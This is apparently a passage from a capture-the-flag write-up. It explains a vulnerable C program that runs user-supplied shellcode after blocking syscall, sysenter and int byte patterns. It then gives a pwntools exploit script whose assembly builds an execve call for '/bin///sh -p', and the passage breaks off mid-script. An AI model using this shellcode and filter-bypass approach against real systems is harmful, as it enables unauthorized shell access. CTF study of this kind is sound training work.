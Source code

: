 ```c
    {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
        {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }
   puts("Executing shellcode!\n");
	((void(*)())shellcode)();
}

int main(){
	vuln();
	return 0;
}
```

Looking at the source code there not much to be exploited as the main only call vuln() and theres no other hidden function so there no need for rewriting the return address as always. And after main() called vuln() it just sanitize 0x80cd, 0x340f and 0x050f which are syscall, sysenter, and int instructions respectively and then execute our input. So we can either dynamically modify bytes to include syscall instructions at runtime, use push,pop implementation (/bin/bash -p), use execve (/bin/bash -p) or even use push,pop implementation (/bin///sh -p).

So rather than doing the shellcode manually or trial and error using chatgpt, I just search google for a shellcode that doesn’t use syscall, sysenter and int.

[https://www.cliffsnotes.com/study-notes/12995378](https://www.cliffsnotes.com/study-notes/12995378)

I used the exploit script and edit it. The shellcode is the important one. Luckily enough the writeup also pad the shellcode until it fill the 0x1000 bytes (4096 bytes) so theres no need to change to automation or anything else.

```python
from pwn import *

elf = ELF('babysc', checksec=False)
context.binary = elf
context.log_level = "INFO"

shellcode = f"""
push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi
    push rsi
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi
    mov rsi, rsp
    xor edx, edx
    push 0x3b
    pop rax
```